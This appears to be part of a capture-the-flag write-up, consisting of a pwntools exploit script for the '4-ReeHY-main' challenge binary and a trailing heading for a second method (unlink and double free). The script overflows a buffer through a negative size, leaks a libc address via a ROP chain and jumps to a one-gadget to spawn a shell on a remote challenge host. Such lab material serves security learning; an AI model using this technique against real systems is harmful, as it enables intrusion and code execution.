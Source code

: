 ```
from pwn import*

# context.log_level = 'debug'
local = 0
if local:
	p = process("./4-ReeHY-main")#,env={'LD_PRELOAD':'./libc_x64.so.6'})
	a = ELF("./4-ReeHY-main")
	e = a.libc
else:
	p = remote('111.198.29.45',31899)
	# p = remote('chall.pwnable.tw',10001)
	a = ELF("./4-ReeHY-main")
	e = ELF('./libc.so.6')
	# e = ELF('./ctflibc.so.6')

def create(size,index,string):
    p.recvuntil('$ ')
    p.sendline('peanuts')
    p.recvuntil('$')
    p.sendline('1')
    p.recvuntil('Input size\n')
    p.sendline(str(size))
    p.recvuntil('Input cun\n')
    p.sendline(str(index))
    p.recvuntil('Input content\n')
    p.sendline(str(string))

def delte(index):
    p.recvuntil('Chose one to dele\n')
    p.sendline(str(index))

def edit(index,string):
    p.recvuntil('Chose one to edit\n')
    p.sendline(str(index))
    p.recvuntil('Input the content\n')
    p.sendline(str(string))

# raw_input()
pop_rdi = 0x0400da3 
pop_rsi_r15 = 0x400da1
put_got = 0x602020
put_plt = 0x4006D0
atoi_got = 0x602058
atoi_plt = 0x400740
create(-1,1,'a'*128+p64(0)+p32(0)+p32(0)+'a'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(0x0400C8C))
# p.interactive()
puts_addr = u64(p.recvuntil('\n')[:6].ljust(8,'\x00'))
print hex(puts_addr)
libc_addr = puts_addr - e.symbols['puts']
print hex(libc_addr)
create(-1,1,'a'*128+p64(0)+p32(0)+p32(0)+'a'*8+p64(0x45216+libc_addr))
# create(-1,1,'a'*128+p64(0)+p32(0)+p32(0)+'a'*8+p64(0x41e68+libc_addr))
p.interactive()
```
### 方法二  unlink + double_free
